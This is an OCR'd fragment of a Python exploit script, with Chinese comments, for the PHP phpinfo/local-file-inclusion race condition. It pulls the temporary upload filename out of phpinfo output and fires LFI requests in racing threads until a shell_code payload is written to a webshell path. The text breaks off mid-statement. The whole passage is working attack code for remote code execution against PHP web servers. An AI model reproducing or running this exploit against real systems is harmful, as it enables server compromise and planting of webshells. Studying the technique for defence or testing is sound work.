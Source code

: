 ```python

    try:
        tmp_name_index = phpinfo_response_data.index('[tmp_name] =&gt')
        # 获取包含payload的临时文件名
        tmp_file_name = phpinfo_response_data[
                            tmp_name_index + 17:
                            tmp_name_index + 31
                        ]
    except ValueError:
        return None
    # 2. 再向lfi发送包含payload的临时文件名, 用于包含
    lfi_socket.send((lfi_request.format(tmp_file_name)).encode())
    # print(lfi_request.format(tmp_file_name))
    lfi_response_data = lfi_socket.recv(4096).decode()

    # 3. 停止phpinfo socket连接
    phpinfo_socket.close()
    # 4. 停止lfi socket连接
    lfi_socket.close()
    if lfi_response_data.find(tag) != -1:
        # 5. lfi response中存在标识内容则payload执行成功
        return tmp_file_name


class ThreadWorker(threading.Thread):
    def __init__(self, event, lock, max_attempts,
                 host, port, phpinfo_request,
                 offset, lfi_request, tag,
                 shell_code, shell_path,
                 lfi_path, lfi_param):
        threading.Thread.__init__(self)
        self.event = event
        self.lock = lock
        self.max_attempts = max_attempts
        self.host = host
        self.port = port
        self.phpinfo_request = phpinfo_request
        self.offset = offset
        self.lfi_request = lfi_request
        self.tag = tag
        self.shell_code = shell_code
        self.shell_path = shell_path
        self.lfi_path = lfi_path
        self.lfi_param = lfi_param

    def run(self):
        global attempts_counter
        while not self.event.is_set():
            # 如果没有set event则一直重复执行, 直到已尝试次数大于最大尝试数(attempts_counter > max_attempts)
            with self.lock:
                # 获取锁, 执行完后释放
                if attempts_counter >= self.max_attempts:
                    return
                attempts_counter += 1
            try:
                tmp_file_name = phpinfo_lfi(
                    self.host, self.port, self.phpinfo_request, self.offset, self.lfi_request, self.tag)
                if self.event.is_set():
                    break
                if tmp_file_name:
                    # 找到tmp_file_name后通过set event停止运行
                    print('\n{shell_code} 已经被写入到{shell_path}中'.format(
```